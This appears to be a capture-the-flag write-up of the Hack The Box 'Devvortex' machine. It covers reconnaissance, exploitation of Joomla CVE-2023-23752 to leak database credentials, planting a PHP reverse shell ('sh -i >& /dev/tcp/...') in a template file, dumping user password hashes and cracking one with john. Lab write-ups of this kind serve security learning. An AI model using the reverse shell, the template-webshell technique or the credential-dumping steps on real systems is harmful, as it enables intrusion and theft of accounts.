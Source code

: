 # Devvortex
![Devvortex](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/c8f28c35-9ff8-4f1a-af51-b7013934aedb)

Initial nmap scan
```s
──(kali㉿kali)-[~/Documents/htb_os3/devvortex]
└─$ nmap -Pn -sV -sC 10.10.11.242 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-02 07:22 EST
Stats: 0:00:22 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 07:22 (0:00:06 remaining)
Nmap scan report for 10.10.11.242
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.98 seconds
```


![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/badd88ee-3076-4613-b7d0-68c9609804d7)

Found dev.devvortex.htb subdomain with enumeration.
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/7c2a69b4-6f6d-41f2-b044-2e1aa13afa9b)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/701bc573-5ad9-45c2-89bd-a08593f3ed10)


Directory enumeration on dev subdomain
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/213eeafc-5770-4028-b4a3-c16a99d6cf63)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/b558310d-83f2-4601-ac23-ddc63aef1241)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/e7a5ee19-f346-4495-9014-11f3f12eb4e0)

404
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/b52bf897-1bfe-48ce-9e0d-26f67b6c4a81)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/d851416d-2897-44cc-849d-ecb119651643)


Joomla enumerationg and analysis
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#version
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/e3cff6ed-e3f4-4649-a71e-488afa3b19ad)

"<version>3.0.0</version>"
Possible vulns
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/a3519557-f24d-4a8f-ac37-bd460b692afb)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/2a6b15c8-c267-4c4c-a00a-a5241d7d96e5)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/3d20a155-f422-425f-b405-87b8a813d4fa)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/8499ed45-d418-453d-96b2-1d3d544f67ea)
Verdsion 4.2.6
Well try CVE-2023-23752
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/bb0b8e7b-7512-49ee-8500-a82143b54272)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/264e5360-7d26-4527-9a71-c261ee248100)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/6bd84eaf-ba63-4859-8ee8-589b934b8e53)
![help](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/a6465125-326e-4baf-b833-07ec72587838)
https://www.exploit-db.com/exploits/51334
https://github.com/Acceis/exploit-CVE-2023-23752
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/48c8d6e5-3982-480d-9251-d05134b25373)
```s
Users
[649] lewis (lewis) - lewis@devvortex.htb - Manager
Administrator
Super Users
[650] logan paul (logan) - logan@devvortex.htb - Registered

Site info
Site name: Development
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: lewis
DB password: P4ntherg0t1n5r3c0n##
DB name: joomla
DB prefix: sd4fg_
DB encryption 0
```
Obtained joomla user and pass. No ssh login with pwnd credentials.
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/ebf0cdb9-cac6-4fd7-baea-b36bf1ebda61)

Now an CE would be nice. Or just some arbitrary file reads.
Using templates change php and then execute by making req
http://dev.devvortex.htb/administrator/templates/atum/error.php
Used bash -c wrapper otherwise session dies instantly.
```s
system('bash  -c "sh -i >& /dev/tcp/10.10.16.26/9898 0>&1"');
```

![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/ced2881a-0a71-466d-b030-37355627a0af)
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/0cacbe79-c0ab-485f-9ca1-989d66c66a54)

Login to mysql db
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/a2aee3b0-9b7f-46f1-8213-c86670c1ee53)
select from users table
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/66eed96c-6b82-4f7f-a81c-7c4ed1721a4a)
we have logan's hash:
```s
;
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| id  | name       | username | email               | password                                                     | block | sendEmail | registerDate        | lastvisitDate       | activation | params                                                                                                                                                  | lastResetTime | resetCount | otpKey | otep | requireReset | authProvider |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+
| 649 | lewis      | lewis    | lewis@devvortex.htb | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |     0 |         1 | 2023-09-25 16:44:24 | 2023-12-02 22:15:32 | 0          | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
| 650 | logan paul | logan    | logan@devvortex.htb | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |     0 |         0 | 2023-09-26 19:15:42 | NULL                |            | {"admin_style":"","admin_language":"","language":"","editor":"","timezone":"","a11y_mono":"0","a11y_contrast":"0","a11y_highlight":"0","a11y_font":"0"} | NULL          |          0 |        |      |            0 |              |
+-----+------------+----------+---------------------+--------------------------------------------------------------+-------+-----------+---------------------+---------------------+------------+---------------------------------------------------------------------------------------------------------------------------------------------------------+---------------+------------+--------+------+--------------+--------------+


-----

2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12


-----
```
cracked the hash using john
![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/dbe39da7-c787-41c4-8943-76aa78c6087e)



![imagen](https://github.com/PolGs/HTB-Open-Beta-Season-III/assets/19478700/db45408f-db2b-4451-a45d-0083fa337d71)







